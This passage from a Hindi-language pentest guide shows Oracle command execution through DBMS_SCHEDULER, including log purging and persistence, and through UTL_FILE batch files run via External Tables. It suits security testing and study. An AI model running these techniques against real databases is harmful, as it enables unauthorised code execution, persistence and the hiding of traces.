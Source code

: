 ```text
select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual
```
ध्यान दें कि, जब आप Scheduler का उपयोग करते हैं, तो आप इस जॉब को एक से अधिक बार चला सकते हैं और इसे कुछ नियमितता के साथ कर सकते हैं। परिणामस्वरूप, यह आपको परीक्षण की गई प्रणाली में एक पकड़ बनाने में मदद करेगा, क्योंकि, यहां तक कि अगर प्रशासक OS से उपयोगकर्ता को हटा देता है, तो यह जॉब, जो नियमित रूप से प्रणाली में चल रही है, उसे या उसकी पुनर्जीवित कर देगी।

# RCE: External Tables

OS कमांड्स के निष्पादन को प्राप्त करने के लिए अंतिम विधि के रूप में, मैं External Tables के उपयोग का उल्लेख करना चाहूंगा। यह विधि आपको बाद में सर्वर से फाइलें डाउनलोड करने में मदद करेगी। आपको निम्नलिखित विशेषाधिकारों की आवश्यकता होगी:

* UTL\_FILE;
* CREATE TABLE;
* उपयोगकर्ता के लिए आरक्षित एक डायरेक्टरी।

आइए याद करें कि 'UTL\_FILE' पैकेज तक पहुंच स्वाभाविक रूप से 'CONNECT' भूमिका वाले सभी खातों को प्रदान की जाती है। पहला कदम: निम्नलिखित क्वेरी के साथ जारी की गई डायरेक्टरीज की जांच करें:
```text
SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;

TABLE_NAME
------------------------------
ALICE_DIR
```
चरण दो: वांछित कमांड के साथ एक निष्पादन योग्य बैच फ़ाइल बनाएं:
```text
declare
f utl_file.file_type;
s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
f := utl_file.fopen('ALICE_DIR','test.bat','W');
utl_file.put_line(f,s);
utl_file.fclose(f);
end;
/
```
चरण तीन: बाहरी तालिका 'EXTT' तैयार करें, आपको फ़ाइल चलाने के लिए इसकी आवश्यकता होगी:
```text
CREATE TABLE EXTT (line varchar2(256))
ORGANIZATION EXTERNAL
(TYPE oracle_loader
DEFAULT DIRECTORY ALICE_DIR
ACCESS PARAMETERS
( RECORDS DELIMITED BY NEWLINE
FIELDS TERMINATED BY ',')
LOCATION (alice_dir:'test.bat'))
/
```
अब, बस निम्नलिखित कमांड के साथ अपनी बैच फ़ाइल को कॉल करें:
```text
SELECT * from EXTT;
```
टर्मिनल त्रुटि संदेश प्रदर्शित करना शुरू कर देगा कि सिस्टम तालिका और आहूत फ़ाइल का मिलान नहीं कर सकता है, लेकिन इस मामले में यह महत्वपूर्ण नहीं है, क्योंकि मुख्य उद्देश्य निष्पादन योग्य फ़ाइल को खोलना था, जिसे आपने हासिल कर लिया है।
